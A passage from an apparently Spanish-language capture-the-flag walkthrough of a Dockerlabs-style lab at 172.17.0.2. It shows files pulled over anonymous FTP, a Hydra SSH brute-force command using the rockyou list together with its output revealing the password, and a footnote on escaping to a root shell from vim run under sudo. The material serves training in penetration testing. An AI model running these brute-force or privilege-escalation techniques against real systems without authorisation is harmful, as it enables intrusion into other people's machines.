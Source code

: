Podemos observar que el login anónimo ha dado resultado y nos hemos encontrado con dos archivos de texto los cuales, haciendo uso del comando `mget`, nos los hemos traidoa nuestra máquina Kali.

```bash
❯ cat chat-gonza.txt pendientes.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: chat-gonza.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ [16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
   2   │ [16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
   3   │ [16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
   4   │ [21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
   5   │ [21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
   6   │ [22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pendientes.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!
   2   │ 
   3   │ 2 Aumentar el precio de mis asesorías online en la Web!
   4   │ 
   5   │ 3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!
   6   │ 
   7   │ 4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
   8   │   permisos habilitados que no son del todo seguros..
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────```
```
En el primer archivo nos encontramos con lo que parece un chat entre dos usuarios de sistema, *Gonza* y *Russoski*.  Por el uso de la primera persona del singular puedo interpretar que estamos tomando el papel de Russoski.  Además, en el segundo archivo se nos esta desvelando que con este usuario de sistema tenemos unos permisos habilitados así que, vamos a probar en el servicio *OpenSSH*.

Haremos uso de la herramienta de fuerza bruta [Hydra](https://github.com/vanhauser-thc/thc-hydra) utilizando *russoski* como nombre de usuario y el diccionario [rockyou](https://github.com/topics/rockyou-wordlist) para comprobar contraseñas.
```py
❯ hydra -l russoski -P /usr/share/wordlists/rockyou.txt -f ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-16 12:53:49
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-16 12:54:21
```
* Con -l seleccionamos el usuario.

[^1]: Vim es un editor de texto para sistemas Unix/Linux que, al poder ejecutarse con sudo, se convierte en una vía de escalada de privilegios porque permite lanzar comandos de sistema desde dentro del editor (por ejemplo con :!bash), lo que posibilita abrir una shell con permisos de root.